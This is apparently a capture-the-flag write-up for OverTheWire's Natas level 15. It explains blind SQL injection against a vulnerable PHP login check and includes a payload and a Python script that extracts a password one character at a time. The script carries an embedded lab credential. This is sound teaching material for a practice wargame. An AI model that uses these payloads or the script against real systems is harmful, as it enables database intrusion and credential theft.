 # Level 15
Pushing things further, this level deals with Blind SQL injection. We'll make a python script as well.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    // If there is no error, we will get one of two response, depending on user input
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again <span id=yellow>unsanitized</span> user input is inserted into the query.<br/>
 - Although no output is displayed after query execution, we can make use of <span id=green>blind SQL injection</span>.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg.<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with `username` and `password` column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is log from local linux lab to make use of `ascii` and `substring` functions to smuggle the password.<br/>


```sql
-- Testing query in Lab
-- Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

-- We compare first character of author name with ascii code  
-- Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

-- Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

We build our payload accordingly:<br/>
<span id=green>  Our payload -></span> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`<br/>
Here, we are checking if the first character of password of user <u>natas16</u> has ascii code of 65 .i.e. A<br/>

Below is screenshot of our failed attempt in Burp. (Note the response _user doesn't exist_)

![Level 15 solution](./images/Level15_solution.png)

Below is a successfull attempt, our password begins with 'W', ascii code 87. (Note the response _user exists_)

![Level 15.1 solution](./images/Level15.1_solution.png)

Instead of manually searching for password char by char, we use <span id=green>Burp intruder</span>.<br/><br/>
We manually change `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings for the same are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below. Now we start attack!.
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of discovering the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level.<br/><br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/><br/>
This script does blind mysql injection till password is revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4 # Show have used auth, but it works for now.
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>
I Added a cool effect that displays the found characters and also searches for next character.

Below is a sample run of the script

<img src="https://grey-fish.github.io/Natas/images/natas15.gif">

<span id=green>Thats all folks!</span>

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
